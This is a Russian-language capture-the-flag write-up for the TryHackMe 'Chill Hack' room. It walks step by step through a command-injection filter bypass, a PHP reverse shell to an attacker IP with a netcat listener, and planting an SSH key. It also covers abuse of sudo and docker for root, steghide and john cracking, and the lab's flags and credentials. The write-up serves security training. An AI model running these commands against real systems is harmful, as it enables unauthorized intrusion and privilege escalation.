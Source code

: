 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Chill Hack](https://tryhackme.com/r/room/chillhack) 

Всего 1 заданиe:
## Задание 1
Охладите хак машины.

Легкий уровень CTF. Захватывайте флаги и получайте удовольствие!
Вы начинаете с поиска уязвимости инъекции команд на веб-сервере и эксплуатируете уязвимость, чтобы получить оболочку 
на коробке. Затем вам нужно эксплуатировать скрипт bash и повысить свои привилегии до пользователя с именем apaar, а 
затем вы можете сбросить ключ SSH, а затем воспользоваться SSH для переадресации портов на порт, работающий на 
локальном хосте. Веб-сайт, на котором вы сделали переадресацию портов, уязвим для инъекции SQL, и вы можете 
использовать это, чтобы обойти аутентификацию, а затем получить доступ к аутентифицированному контенту. После входа 
в систему вы найдете подсказку, которая заставляет вас подозревать стенографию. Скопируйте изображение на свой ящик, 
выполните анализ стего и получите резервный zip-файл. zip-файл зашифрован с помощью пароля. Вы генерируете хэш с 
помощью zip2john и кряка с john the ripper и получаете пароль для zip-файла. Извлеките zip-файл и вы найдете 
исходный код PHP, который содержит некоторые учетные данные для другого пользователя. Повысьте свои привилегии до 
этого пользователя и обнаружите, что он в группе docker, сделайте немного магии GTFOBins и получите root shell на 
коробке, это действительно забавная коробка без особых слов, давайте перейдем к делу
### Ответьте на вопросы ниже
Пользовательский флаг
```commandline
nmap -sC -sV 10.10.51.62
ftp 10.10.51.62
# anonymous
ls -la
get note.txt -
cat note.txt
# Anurodh and Apaar
```
Возвращаясь к моему сканированию Gobuster, я обнаружил несколько каталогов, и один из них был интересным `http://10.10.51.62/secret/`.
Я решил заглянуть в каталог и обнаружил, что там есть файл index.php, который может выполнять команды.
```commandline
gobuster dir -u http://10.10.51.62 -x txt,php,tar,zip -w /usr/share/wordlists/dirb/common.txt
# http://10.10.51.62/secret/
```
Я решил начать с простого и просто выполнить `ls`, чтобы получить список каталогов. Но когда я выполнил команду, я 
получил сообщение об ошибке. Я подумал, что это может быть страница троллей, не имеющая реальной функции, но чтобы 
подтвердить свои подозрения, я попробовал другую команду `whoami`, затем `ifconfig`. И команды выполнились просто 
отлично. Потом я предположил, что в команде была фильтрация по некоторым словам. Самый простой способ, которым я всегда пытаюсь обойти 
любую фильтрацию при инъекции команды, — это использовать обратные косые черты. Если я не экранирую специальные 
символы, то слово будет интерпретироваться bash одинаково. Итак, я попробовал снова выполнить ls, но в этом случае 
я добавил обратную связь между l и s. Далее я решил взглянуть на PHP-файл, в котором выполняются команды, и 
посмотреть, какие еще слова были занесены в черный список скриптом с помощью приведенной ниже команды. 
```commandline
ls
ifconfig
l\s -la
c\at index.php
```
И глядя на источник, мы видим еще несколько слов, которые фильтруются скриптом, включая
```commandline
nc, python, bash, php, perl, rm, cat, head, tail, python3, more, less, sh, ls
```
Эти слова в основном используются для получения обратных оболочек на любой системе. Но теперь у нас есть способ 
обойти эти ограничения. Теперь давайте получим оболочку. 
Я создал обратную оболочку bash
```commandline
whoami;php -r '$sock=fsockopen("your-vpn-ip",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```
на вашей машине запускаем прослушивание порта 4444, а затем bash
```commandline
nc -lvnp 4444
python3 -c 'import pty;pty.spawn("/bin/bash")'
sudo -l
cat /home/apaar/.helpline.sh
sudo -u apaar ./.helpline.sh
cat local.txt
```
```commandline
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
```
Корневой флаг
```commandline
id
ssh-keygen
echo "your-ssh-public-key-contents" >> /home/apaar/.ssh/authorized_keys
ssh -L 9001:127.0.0.1:9001 apaar@10.10.51.62 -i id_rsa
# http://127.0.0.1:9001

cd /var/www/files/
cat account.php
cat index.php
# mysl:dbname=webportal;host=localhost, root, !@m_her00+@db

mysql -u root -p

SHOW DATABASES;
USE webportal
SHOW TABLES;
SELECT * FROM users;
```
Глядя на файл hackers.php мы получаем подсказку и картинку, первая мысль, которая пришла в голову, была стенография. 
Я загрузил изображение на свой локальный ящик с помощью wget. Далее я попробовал простые методы стенографии.

```commandline
cat hacker.php
wget http://127.0.0.1:9001/images/hacker-with-laptop_23-2147985341.jpg
file hacker-with-laptop_23-2147985341.jpg 
steghide extract -sf hacker-with-laptop_23-2147985341.jpg
zip2john backup.zip > backup.hash
john backup.hash --wordlist=/usr/share/wordlists/rockyou.txt
# pass1word        (backup.zip/source_code.php)
unzip backup.zip
# pass1word
cat source_code.php
echo -n IWQwbnRLbjB3bVlwQHNzdzByZA== | base64 -d ; echo

# Username: anurodh
# Password: !d0ntKn0wmYp@ssw0rd
```

```commandline
su - anorodh



docker run -v /:/mnt --rm -it alpine chroot /mnt sh
id
cd /root
ls -la
cat proof.txt
```
```commandline
{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)